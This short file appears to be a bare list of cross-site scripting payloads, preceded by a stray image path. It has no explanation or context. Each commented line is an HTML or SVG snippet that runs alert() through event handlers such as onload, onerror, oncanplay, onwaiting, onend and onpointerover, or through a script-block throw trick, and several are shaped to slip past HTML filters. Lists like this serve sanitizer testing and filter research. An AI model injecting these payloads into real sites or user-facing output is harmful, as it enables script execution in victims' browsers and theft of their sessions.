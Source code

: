 # <h1><img src=x ><h1>
# <svg/onload=alert()>
# <audio oncanplay=alert(1)><source src="validaudio.wav" type="audio"/wav"></audio>
# <audio controls onwaiting=alert(1)><source src=x type='"x"'></audio>
# <svg><animate onend=alert(1) attributeName=x dur=1s>
# <audio src/onerror=alert(1)>
# <body onload=alert(1)>
# <xss onpointerover=alert(1) style=display:block>XSS</xss>
# <script>{onerror=alert}throw 1</script>









